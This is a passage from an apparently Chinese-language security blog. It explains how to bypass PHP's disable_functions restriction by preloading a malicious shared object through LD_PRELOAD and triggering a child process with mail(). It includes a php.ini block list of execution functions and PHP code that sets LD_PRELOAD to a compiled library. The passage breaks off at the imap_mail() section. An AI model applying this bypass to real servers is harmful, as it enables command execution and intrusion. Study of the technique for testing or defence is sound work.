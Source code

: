 重新编译并加载，成功执行

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190402154051.png)



### 0x03 绕过`disable_functions`

接下来看一下怎么利用`LD_PRELOAD`在`php`启用`disable_functions`禁用了命令/代码执行函数的情况下绕过这个限制，达到命令执行的效果

`php.ini`限制大部分执行命令的函数

```ini
disable_functions = assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open
```

根据上面的介绍，我们突破`disable_functions`的步骤如下

1. 编写恶意C函数，并编译成共享对象；
2. 在`php`执行过程中找到一个函数，这个函数能够产生一个新的进程；
3. 通过`putenv`设置`LD_PRELOAD`环境变量，使得新产生的进程优先加载恶意共享对象；

第1步在上文已经解决了，第3步也比较容易实现，关键就是第2步，找到一个`php`中可以新起一个进程的函数，目的是为了让这个新进程使用的环境变量加载我们设置的恶意共享对象，达到劫持的目的

在`php`中有这么几个函数可以被利用，`mail()`，`imap_mail()`，以及`Imagick`，来逐一测试

#### mail()

`mail()`函数会启动`sendmail`进程发送邮件，这个过程是可以被劫持的

```php
<?php
    mail("admin@localhost","","","","");
?>
```

通过`strace`查看`mail()`函数调用的过程

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190402180420.png)

可以看到除了`php`自身进程外还启动了`sendmail`进程，而`sendmail`在执行过程中调用了多个可以被劫持的函数，例如`getuid`，`getgid`， `getpid`等，我们还是以上面的`getpid`为例测试

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190403103643.png)

通过`putenv`将`LD_PRELOAD`环境变量设置为上面编译好的`getpid.so`

```php
<?php
    putenv("LD_PRELOAD=/tmp/getpid.so");
    mail("admin@localhost","","","","");
?>
```

![](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/20190403104908.png)

成功绕过`disable_functions`限制。另外也可以用`__attribute__ ((__constructor__))`修饰函数，这样就不局限于某个系统函数。

#### imap_mail()
